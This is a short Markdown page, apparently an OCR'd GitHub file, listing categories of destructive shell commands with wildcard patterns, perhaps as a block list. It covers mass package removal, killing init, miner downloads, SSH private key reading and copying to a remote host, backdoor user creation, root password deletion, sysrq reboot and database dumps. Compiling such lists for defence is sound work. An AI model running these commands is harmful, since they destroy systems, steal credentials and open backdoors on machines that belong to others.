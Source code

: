 ## 🔥 PACKAGE DESTRUCTION (SYSTEM BREAK)
```
apt purge *
yum remove *
dnf remove *
pacman -Rns *
```

## 🔥 PROCESS KILLING (SYSTEM CRASH)
```
killall -9
pkill -9 -f
kill -9 1
```

## 🔥 CRYPTO MINING (RESOURCE HIJACK)
```
wget https://github.com/xmrig/xmrig*
curl -s -L https://download.c3pool.com*
minerd
ccminer
```

## 🔥 SSH KEY THEFT (ACCOUNT COMPROMISE)
```
cat /home/*/.ssh/id_rsa
ssh-keygen -t rsa -b 4096 -f ~/.ssh/id_rsa -N ""
scp ~/.ssh/id_rsa user@*:~
```

## 🔥 USER ACCOUNT MANIPULATION (BACKDOOR USERS)
```
useradd -m -s /bin/bash hacker
usermod -aG sudo hacker
usermod -aG wheel hacker
passwd -d root
```

## 🔥 MEMORY/PROCESS MANIPULATION (SYSTEM INSTABILITY)
```
echo 1 > /proc/sys/kernel/sysrq
echo b > /proc/sysrq-trigger
kill -9 -1
```

## 🔥 DATABASE EXPOSURE (DATA LEAK)
```
mysqldump -u root -p *
pg_dump -U postgres *
sqlite3 /var/db/* .dump
```
